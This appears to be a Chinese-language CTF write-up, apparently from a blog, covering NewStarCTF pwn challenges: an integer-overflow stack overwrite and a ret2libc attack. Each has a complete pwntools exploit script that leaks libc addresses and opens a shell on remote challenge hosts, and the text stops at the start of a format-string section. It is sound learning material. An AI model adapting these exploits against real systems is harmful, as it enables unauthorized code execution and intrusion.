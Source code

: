 ### overwrite
这道题的考点是通过整数溢出突破read读取从而可以覆盖到栈上的变量
```python
from pwn import *

io = remote("39.106.48.123", 33789)
payload = cyclic(0x80-0x50) + b"114515"
io.recvuntil("readin")
io.sendline(b"-1")
io.recvuntil("say")
io.sendline(payload)
io.interactive()
```
## week2
### ez_game
常规的ret2libc，需要注意栈对齐
```python
from pwn import *

context(arch='amd64', os='linux',log_level='debug')

io = remote("101.200.139.65", 30798)
print(pidof(io))
libc = ELF('../newstarctf/libc-2.31.so')
elf = ELF('../newstarctf/attachment')
main = elf.symbols['main']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
pop_rdi = 0x400783
ret = 0x400509

payload1 = cyclic(0x50+0x8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
io.recvuntil(b"!")
io.sendline(payload1)
puts_addr = u64(io.recvuntil(b'Wel')[-10:-4].ljust(8, b'\x00'))
print(hex(puts_addr))

base_addr = puts_addr - libc.symbols['puts']
system_addr = base_addr + libc.symbols['system']
bin_sh = base_addr + next(libc.search(b'/bin/sh'))

payload2 = cyclic(0x50+0x8) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system_addr)
io.recvuntil(b"!")
io.sendline(payload2)
io.interactive()
```
注意到官方的exp中有写法：
```python
libc = elf.libc
```
不知道原理是什么🧐 但下次试一试😋
### EZ_fmt
这道题算是我第一次做fmt类型的题目，为了做这道题才开始翻wiki翻资料，才开始学习fmt。虽说题还算常规，但还是记录下来，也算是记录自己学习fmt的过程。有机会单开一篇讲一下fmt。  
